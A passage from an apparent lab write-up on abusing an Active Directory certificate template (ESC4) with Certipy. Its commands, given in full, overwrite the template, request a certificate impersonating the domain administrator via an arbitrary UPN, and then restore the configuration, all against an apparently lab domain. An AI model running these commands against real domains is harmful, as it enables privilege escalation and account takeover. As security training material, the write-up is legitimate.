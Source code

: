 By default, Certipy will overwrite the configuration to make it vulnerable to ESC1.

### Template Abuse

We can specify the `-save-old` flag to save the old configuration, which is useful for restoring the configuration afterwards.

`certipy template -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -template Vuln-ESC4 -dc-ip 192.168.91.181 -save-old`

![](/screenshots/20230725005406.png?raw=true)

Therefore, we can now request a certificate based on the ESC4 template and specify an arbitrary SAN with the `-upn` flag, in the exact same way we would for ESC1.

`certipy req -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -ca Certipied-CA -template Vuln-ESC4 -upn administrator@certipied.local -dc-ip 192.168.91.181`

![](/screenshots/20230725005455.png?raw=true)

We can restore the old configuration by specifying the path to the saved configuration with the `-configuration` flag.

`certipy template -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -template Vuln-ESC4 -dc-ip 192.168.91.181 -configuration Vuln-ESC4.json`

![](/screenshots/20230725005618.png?raw=true)
